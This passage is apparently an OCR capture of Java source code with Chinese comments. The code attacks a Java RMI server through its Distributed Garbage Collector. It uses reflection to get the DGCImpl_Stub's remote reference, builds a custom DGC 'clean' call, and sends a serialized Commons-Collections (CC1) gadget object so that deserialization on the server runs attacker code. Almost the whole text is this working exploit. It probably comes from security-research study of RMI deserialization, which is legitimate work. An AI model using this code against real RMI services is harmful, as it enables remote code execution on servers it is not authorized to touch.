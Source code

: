             // 自定义 DGC clean 请求对服务端发起攻击
            attackServerDGCClean(myRemote);
        }
        
        private static void attackServerDGCClean(IMyRemote myRemote) throws Exception{
            // 1. 先拿到远程对象相关的 UnicastRef
            Field remoteObjectInvocationHandlerField = Class.forName("java.lang.reflect.Proxy").getDeclaredField("h");
            remoteObjectInvocationHandlerField.setAccessible(true);
            RemoteObjectInvocationHandler remoteObjectInvocationHandler = (RemoteObjectInvocationHandler) remoteObjectInvocationHandlerField.get(myRemote);
            UnicastRef unicastRef = (UnicastRef) remoteObjectInvocationHandler.getRef();
    
            // 2. 通过 UnicastRef，获取到 LiveRef
            LiveRef liveRef = unicastRef.getLiveRef();
            // 再通过反射拿到 TCPEndpoint
            Class<? extends LiveRef> tcpEndpointClass = liveRef.getClass();
            Field epField = tcpEndpointClass.getDeclaredField("ep");
            epField.setAccessible(true);
            TCPEndpoint tcpEndpoint = (TCPEndpoint) epField.get(liveRef);
            // 根据客户端在 DGCImpl_Stub 被创建的流程，拿到其内部类 EndpointEntry 类，调用它的 lookup 方法（返回值是 EndpointEntry）并创建 DGCImpl_Stub
            Class<?> DGCClient_EndpointEntryClass = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
            Method lookupMethod = DGCClient_EndpointEntryClass.getDeclaredMethod("lookup", Endpoint.class);
            lookupMethod.setAccessible(true);
            // lookup 是静态方法，第一个参数传 null
            Object endpointEntry = lookupMethod.invoke(null, tcpEndpoint);
            Field dgcField = endpointEntry.getClass().getDeclaredField("dgc");
            dgcField.setAccessible(true);
            DGCImpl_Stub dgc = (DGCImpl_Stub) dgcField.get(endpointEntry);
            // 本质上就是拿到 DGC/DGCImpl_Stub 通信时用到的 UnicastRef，这里和上面的 unicastRef 对比，就是其 ObjID 发生了改变，但端口没变。
            UnicastRef unicastRef2 = (UnicastRef) dgc.getRef();
            final java.rmi.server.Operation[] operations = {
                    new java.rmi.server.Operation("void clean(java.rmi.server.ObjID[], long, java.rmi.dgc.VMID, boolean)"),
                    new java.rmi.server.Operation("java.rmi.dgc.Lease dirty(java.rmi.server.ObjID[], long, java.rmi.dgc.Lease)")
            };
            final long interfaceHash = -669196253586618813L;
            StreamRemoteCall call = (StreamRemoteCall)unicastRef2.newCall(dgc,
                    operations, 0, interfaceHash);
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                out.writeObject(getSerializedCC1Object());
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            unicastRef2.invoke(call);
            unicastRef2.done(call);
        }
    }
    ```
